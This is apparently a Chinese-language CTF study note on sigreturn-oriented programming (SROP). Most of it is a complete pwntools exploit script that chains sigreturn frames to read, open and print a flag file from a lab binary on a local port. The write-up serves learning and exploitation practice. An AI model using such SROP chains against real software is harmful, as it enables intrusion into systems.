


# SROP

参考：[SROP详解](https://xz.aliyun.com/t/12790)

srop是我研究了有个两三天的东西，因为最近很忙，所以一直没有进行全身心的投入。

但是研究下来发现，这个东西的主要重点其实就是在对`sigreturn` 这一个系统调用的使用上，它虽然原理很复杂，但是实际上也就是对syscall的使用。

具体使用上，pwntools集成了对于Srop的调用

```python
frame = SigreturnFrame()
frame.rdi = 59        # exec的系统调用 这里是由于汇编代码之前进行了mov rdi,rax的调用所以才这么写
frame.rsi = 
frame.rdx = 
frame.rcx = 
frame.rsp = 
frame.rip = 
```

```bash
cat /usr/include/asm/unistd_64.h
```

# **simple_srop**





其实SROP的功能就是一长串ROP链的功能，只不过它在没有ROP的时候也可以进行使用，主要是依靠syscall

这道题是利用了SROP，在没有输出函数，没有ROP的时候，让它成为主角，特别是当SROP中的rsp被设置为下一个SROP的地址的时候，这就达成了**SROP链**


在可以使用SROP链的时候，他是一个非常方便的trick

先给出exp

```bash
from pwn import *
from LibcSearcher import *
context(arch='amd64', os='linux', log_level='DEBUG')

# io = process("./vuln")
io = remote("127.0.0.1",40955)

syscall_addr = 0x000000000040129d
base_addr = 0x404200
srop_addr = 0x401296
elf = ELF('./vuln')

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_read = SigreturnFrame()
frame_read.rax = 0
frame_read.rdi = 0
frame_read.rsi = base_addr # 先找一个可以写的地址进行书写
frame_read.rdx = 0x500 
frame_read.rip = syscall_addr
frame_read.rsp = base_addr  # 把栈的地址直接放在bss段，方便我们进行修改
# 注意在我们frame_read.rip的逻辑结束后，rsp是直接指向下一个srop_addr的，可以把这个看成它的返回地址

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_write = SigreturnFrame()
frame_write.rax = 1
frame_write.rdi = 1
frame_write.rsi = base_addr+ 0x500
frame_write.rdx = 0x100  
frame_write.rip = syscall_addr
frame_write.rsp = base_addr + 0xF0 + 0x8 * 4  #这里的地址是随便写的

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_open = SigreturnFrame()
frame_open.rax = 2
frame_open.rdi = base_addr+0x400
frame_open.rsi = 0 #泄露libc地址
frame_open.rdx = 0x0  
frame_open.rip = syscall_addr
#一个SigreturnFrame()大小0xF8 控制栈顶，0x8是srop_addr
frame_open.rsp = base_addr + 0xf8+ 0x8

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_read2 = SigreturnFrame()
frame_read2.rax = 0
frame_read2.rdi = 3
frame_read2.rsi = base_addr+ 0x500 
frame_read2.rdx = 0x100
frame_read2.rip = syscall_addr
frame_read2.rsp = base_addr+ 0xf8+ 0x8 + 0xf8+ 0x8  

#使用pwntools的SigreturnFrame()帮助构造结构体
frame_ex = SigreturnFrame()
frame_ex.rax = 322
frame_ex.rdi = 0
frame_ex.rsi = base_addr+ 0x400 
frame_ex.rdx = 0x0
frame_ex.rip = syscall_addr
frame_ex.rsp = base_addr+ 0xf8+ 0x8 + 0xf8+ 0x8  #一个SigreturnFrame()大小0xF0 控制栈顶

payload = cyclic(0x28) + p64(srop_addr) + bytes(frame_read)
# in stack 
payload2 =  p64(srop_addr) + bytes(frame_open)
payload2 += p64(srop_addr) + bytes(frame_read2)
payload2 += p64(srop_addr) + bytes(frame_write)
payload2 = payload2.ljust(0x400,b'\x00')
payload2 += b'./flag\x00'
payload2 = payload2.ljust(0x500,b'\x00')

io.send(payload)

pause()
io.send(payload2)
io.interactive()

```

可以看出虽然弄出来的段很多，但是从逻辑上来看SROP能达成的效果的利用相当的简便（在你弄懂了的情况下）